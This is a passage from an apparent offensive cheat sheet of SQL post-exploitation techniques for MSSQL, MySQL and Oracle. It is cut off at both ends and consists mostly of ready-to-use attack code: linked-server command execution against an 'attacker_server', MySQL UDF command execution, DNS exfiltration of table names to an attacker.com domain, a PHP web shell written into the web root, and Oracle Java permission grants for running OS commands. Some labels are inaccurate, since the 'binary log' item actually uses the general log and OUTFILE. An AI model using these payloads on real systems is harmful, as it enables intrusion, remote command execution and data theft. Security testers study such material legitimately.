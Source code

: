    This enables `xp_cmdshell` to execute system commands if it's not already enabled.

3. **Linked Servers**

   ```sql
   EXEC sp_addlinkedserver 'attacker_server';
   EXEC sp_addlinkedsrvlogin 'attacker_server', 'false', NULL, 'username', 'password';
   EXEC ('xp_cmdshell ''net user''') AT attacker_server;
   ```

   This technique uses linked servers to run commands on a different server.

### MySQL

1. **UDF (User Defined Functions) for Remote Command Execution**

   ```sql
   CREATE TABLE foo(line BLOB);
   INSERT INTO foo VALUES (LOAD_FILE('/usr/lib/lib_mysqludf_sys.so'));
   SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
   CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
   SELECT sys_exec('id > /tmp/out; chown mysql.mysql /tmp/out');
   ```

   This technique involves creating a UDF to execute system commands.

2. **DNS Exfiltration**

   ```sql
   SELECT LOAD_FILE(CONCAT('\\\\', (SELECT table_name FROM information_schema.tables LIMIT 0,1), '.attacker.com\\a'));
   ```

   This exfiltrates data through DNS requests to an attacker-controlled domain.

3. **Binary Log Injections**

   ```sql
   SET GLOBAL general_log = 'ON';
   SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
   SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
   ```

   This exploits the binary log feature to write a web shell.

### Oracle

1. **Java Procedures for Command Execution**

   ```sql
   EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );
   EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '' );
   EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '' );
   
   CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "cmd" AS
   import java.io.*;
   public class cmd {
      public static String run(String cmd) {
         try {
            StringBuffer output = new StringBuffer();
            Process p = Runtime.getRuntime().exec(cmd);
            BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String line = "";
            while ((line = reader.readLine())!= null) {
               output.append(line + "\n");
            }
            return output.toString();
         } catch (Exception e) {
   ```